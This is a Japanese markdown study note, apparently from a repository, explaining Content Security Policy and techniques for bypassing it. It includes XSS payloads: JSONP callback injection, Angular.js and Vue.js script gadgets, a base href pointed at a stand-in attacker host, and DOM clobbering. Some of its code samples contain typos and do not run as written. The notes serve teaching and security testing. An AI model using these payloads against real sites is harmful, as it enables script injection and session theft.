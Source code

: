 # CSP Evaluation
<br>

- [#CSPとは](#CSPとは)
- [#CSPが設定されているか](#CSPが設定されているか)
	- [#HTTPヘッダに含まれる場合](#HTTPヘッダに含まれる場合)
	- [#meta要素で記述する場合](#meta要素で記述する場合)
- [#ディレクティブ](#ディレクティブ)
- [#CSPとは](#CSPとは)
- [#Bypassing](#Bypassing)
	- [#ホストベースの構成を利用したバイパス](#ホストベースの構成を利用したバイパス)
	- [#ディレクティブの設定不備により脆弱性が生まれるパターン](#ディレクティブの設定不備により脆弱性が生まれるパターン)

<br>

## CSPとは
CSP(Content Security Policy)

CSPはXSSなどの*Content Injection攻撃*に対するリスクを軽減させるセキュリティレイヤーのこと。

具体的には

- ホスト名
	- スクリプトの配信元として信頼するサーバーのホスト名を指定する。スクリプトを読み込む際に参照されて信頼できるものとして含まれていない場合は実行しない。
- ハッシュ値
	- 実効するスクリプトのハッシュ値を先に計算しておき、そのハッシュ値と同じ場合のみ実行を許可する。
	- hash値が異なる場合 -> script が書き換わった場合実行しない
- 乱数
	- HTMLをレスポンス時に使い捨ての乱数スクリプトに付与し、付与時の乱数と等しい場合のみ実行する。
	- nonce 属性がついていない script 要素は実行しない

<br>

## CSPが設定されているか

CSPが設定されているかは以下の2パターンで確認できる。

### HTTPヘッダに含まれる場合
```http
HTTP/1.1 200 OK
Host: example.com
...
Content-Security-Policy: script-src 'self'
...
```

### meta要素で記述する場合
```html
<head>
	<meta 
		http-equiv="Content-Security-Policy" 
		content="script-src 'self'"
	>
</head>
```

<br>


## ディレクティブ
ディレクティブとは、CSPによる制限を定義するための命令記法のこと。
*\<directive-name\> \<directive-value\> ...* の順で書かれる
For exsample)
```directive
script-src 'self'
script-src 'self' 'unsafe-inline'
```

<!--
**script-srs** : スクリプトに関する制限を定義するディレクティブ。
|keyword|説明|
|---|---|
|'none'|あらゆるスクリプト|
|'self'|参照している HTML と Same-Origin であるスクリプトの実行を許可する|
|*host-source:* |ホスト名や IP アドレス、URLによって指定されたサーバーから配信されるスクリプトの実行を許可する。|
|'host-souce' 'nonce-\<base64-value\>'|Base64 形式の Nonce (使い捨ての乱数) を用いてスクリプトの実行を許可する。許可対象とするスクリプト要素の nonce 属性と同じ値にならない場合、そのスクリプトは実行されない。|
|'host-souce' '\<hash-algorithm\>-\<base64-value\>'|Base64形式のハッシュ値を用いてスクリプトの実行を許可する。ハッシュ値はスクリプトの内容をハッシュ化したもの。外部リソースの場合はスクリプトの integrity 属性にそのスクリプトのハッシュ値を入れる。|
|
**connect-src** : script interfaces API (XMLHttpRequest や Fetch API のこと) を介して通信可能なURLの制限を定義するディレクティブ。connect-src ディレクティブの値として指定されたURL以外のアクセスは禁止される。

**default-src** : Fetch Directives に属するディレクティブのフォールバックとして機能する。
[developer.mozilla.org CSP: default-src](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Security-Policy/default-src)

**base-uri** : base要素で可能なドキュメントの相対URLの起点を制限するディレクティブ。**none** なら安全

-->

<br>

## Bypassing

### ホストベースの構成を利用したバイパス
---
```http
Content-Security-Policy: script-src 'self' csp.example.com
```
のようになっている場合
以下の２点をチェックする

**JSONPエンドポイントの有無**

> *csp.example.com* からスクリプトを返させることによって SOP(Same-Origin-Policy) の制限をバイパスする。

Attacker -> Target
```html
<script src="csp.example.com/jsonp?callback=alert(1)//"></script>
```

Target -> csp.example.com
```text
csp.example.com/jsonp?callback=alert(1)//
#通常 callback 関数を要求していますが、今回はalertが渡されている
```

csp.example.com -> Target
```javascript
alert(1)//({name:aaaa})
// "alert(1)//" に引数を付けて返すがコメントアウトされ alert(1) が実行される
```


**サーバのライブラリ**

> ライブラリに含まれる Script Gadget と呼ばれるスクリプトの挿入を可能にするスクリプトを利用する。

Angular.js の場合
```html
<script src="csp.example.com/angular.js"></script>
<div ng-app ng-csp>{{ eval.constructor('alert(1)')() }}</div>
```

Vue.js の場合
```html
<script src="cdn.example.com/vue.js"></script>
<div>{{ constructor.constructor('alert(1)')() }}</div>
```


<br>


### ディレクティブの設定不備により脆弱性が生まれるパターン
---

> 設定の不備については
[CSP Evaluator](https://csp-evaluator.withgoogle.com/)にて脆弱性を確認できる。

**base-uri** 設定不備の際
```html
<base href="http://attacker.example.com">
```
とすることでそれ以下の\<script src="/test.js"\>となっている箇所を
http://attacker.example.com/test.js と参照先を変えることが可能

<br>

### DOM Clobbering による strict-dynamic のバイパス
---
> script-src ディレクティブに strict-dynamic が設定されている場合、DOM Clobbering と呼ばれる手法を用いて CSP をバイパスできる場合がある。
> > **strict-dynamic** : parser-incerted (\<img src="/"  onerror="\<script\>alert(1)\</script>"\>) などを防ぐ設定
> > 
> > **DOM Clobbering** とは、HTML 内に不正な HTML を挿入することで本来の DOM 構造を破壊し、JavaScrip による DOM 操作の内容を強制的に変更させる手法のこと。

**DOM Clobbering**

*document.getElementById('name')* などが存在するときは、
もともとの idの値よりも前の段階で そのidの値 を使用することで DOM 構造を破壊できる。




脆弱性)

*?title=TITLE&name=USER*
```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>

<!-- タイトル
?title=TITLE から取得
-->
<h1>TITLE</h1>
<!-- 名前 -->
<p id="name"></p>
```


攻撃例)

*?title=\</h1\>\<script id="name"\>\</script\>\<h1\>&name=alert(1)//*
```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>

<!-- タイトル
?title=</h1><script id="name"></script><h1> から取得
-->
<h1></h1><script id="name"></script><h1>
<!-- 名前 -->
<p id="name"></p>
```